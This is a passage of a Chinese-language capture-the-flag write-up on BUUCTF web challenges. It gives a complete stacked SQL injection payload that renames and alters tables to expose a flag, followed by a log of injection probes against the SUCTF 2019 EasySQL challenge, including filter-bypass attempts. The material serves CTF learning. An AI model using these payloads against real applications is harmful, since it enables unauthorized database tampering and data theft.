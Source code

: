1. 通过`rename`修改`word`的表名:`rename table words to aaa;`

2. 将`1919810931114514`的表名修改为`word`:

   ```sql
   rename table `1919810931114514` to words
   ```

3. 修改该表中的列信息:

   ```sql
   alter table words add id int unsigned not Null auto_increment primary key; alter table words change flag data varchar(100);
   ```

那么完整的payload为:

```
1'; rename table words to aaa; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alter table words change flag data varchar(100);#
```

最后只要输入1就可以查询到flag了:

<img src="/images/buuctf-web/image-20221013175155502-16670478197338.png" alt="image-20221013175155502" style="zoom:67%;" />



<br>

***

<br>

# [SUCTF 2019]EasySQL



```
1 有显示
1' 无显示
1122 and 1=1 # --nonono
asb and 1=1 # --nonono
1122 or 1=1 # --nonono
asb or 1=1 # --nonono
1;show databases;# 成功
1;show tables;# 成功
1;show columns from Flag; --nonono
1;Set@a=0x73686f7720636f6c756d6e732066726f6d20466c61673b;prepare b from @a;execute b;# --nonono
1;HANDLER flag OPEN as a;HANDLER a READ FIRST;HANDLER a CLOSE;#  --nonono
```
